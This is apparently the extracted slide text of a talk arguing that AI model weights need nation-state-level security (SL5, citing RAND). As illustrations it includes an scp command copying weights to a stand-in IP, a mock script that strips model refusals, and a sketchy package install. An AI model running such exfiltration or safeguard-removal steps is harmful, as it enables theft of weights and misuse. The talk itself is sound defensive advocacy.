



Protecting from superpowers, and against rogue AI
$ scp weights.bin root@203.0.113.7:~/totally_not_weights/
Nitzan Pomerantz
Scan → pick a side
– in the room
No phone? You'll get a show of hands.
Copying model_weights.bin → SD card
0%✓ Copied
Not enough space.
Delete 'GTA VI' to continue?
Payoff list = risks tracked in the labs' own safety frameworks
$ python veritaserum.py
stripping refusals… 0%

AI alignment without nation-state cybersecurity is just free R&D for your adversary.
Nitzan Pomerantz
It's already on your phone
–
–
$ pip install turbo-weights-v2
Collecting turbo-weights-v2
Author: dark_wizard_99 · Created: 14 mins ago
Successfully installed turbo-weights-v2

Two people physically authorize every sensitive action.
another side door ↓a side door ↓
dev-2 approved these changes · 12 seconds later
LGTM 👍
SL5 network
the internet
new network router
RAND
Securing AI Model Weights (2024)
the attacker tiers
Security Level 5
SL5 Standard (2026)
the building blocks
Price?
Schedule?
“You can't make an arbitrary system SL5. You can make a narrow, purpose-built AI data center SL5.”
How much does SL5 slow down research?
–
As a lab CEO, when do you lock down?
–
Already silently stolen?
–
expect >30%
would wait for "Just-in-Time"
The bottleneck isn't money.
It's the calendar.
"Achieving SL5 is currently not possible."
RAND, 2024
Alignment: an unsolved science problem.
Securing the weights: a systems-engineering fight.

Understand it in 5 min
nitzpo.github.io/sl5/introthe intro · works on a phonePlay with the simulator
nitzpo.github.io/sl5on a computer, not a phoneGo deeper
the RAND report · the SL5 StandardTalk to me
LinkedIn / after the talkMissed it? Scan:
Thank you
Nitzan Pomerantz